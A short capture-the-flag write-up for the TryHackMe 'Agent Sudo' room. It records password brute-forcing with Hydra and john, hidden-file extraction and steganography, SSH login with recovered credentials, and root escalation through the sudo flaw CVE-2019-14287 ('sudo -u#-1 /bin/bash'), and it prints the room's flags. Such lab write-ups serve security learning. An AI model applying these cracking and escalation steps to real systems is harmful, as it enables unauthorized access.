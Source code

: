 #tryhackme #ctf 
# Agent Sudo
---

## Nmap
`
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
`

change user agent using the User Agent Switcher add-on (in Firefox) -> use C as user-agent -> agent_C_attention.php

Name: chris -> weak password (brute-force)

## Hydra
found FTP password: crystal

connect to FTP using creds chris:crystal
| found 3 files: To_agentJ.txt, cute-alient.jpg, cutie.png
| To_agentJ.txt -> passwd stored in 1 pic
| real pic stored in agentJ's directory

download `foremost` and use on cutie.png to find a zip file (passwd protected)

Use zip2john to convert zip to hash for john the ripper

`zip2john <zipfile>.zip > hash.txt`

Use john the ripper to brute force using rockyou.txt
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt` -> found password `alien`

unzip using passwd: alien -> found file To-agentR.txt

To_agentR.txt -> QXJlYTUx -> decode base64 -> found `Area51`

use online decoder to solve steganography with passwd: Area51 -> found creds james:hackerrules!

ssh using creds james:hackerrules! -> success!
`cat user_flag.txt` -> b03d975e8c92a7c04146cfa7a5a313c7

reverse image seach on google -> found 'Roswell alien autopsy'

`sudo -l` -> found (ALL, !root) /bin/bash -> we can run bash as any user

search `(ALL, !root) /bin/bash exploit` on google -> found CVE-2019-14287

exploit this:
`sudo -u#-1 /bin/bash` -> gained root!

`cat /root/root.txt` -> b53a02f55b57d4439e3341834d70c062 [FLAG]

Agent_R's real name: DesKel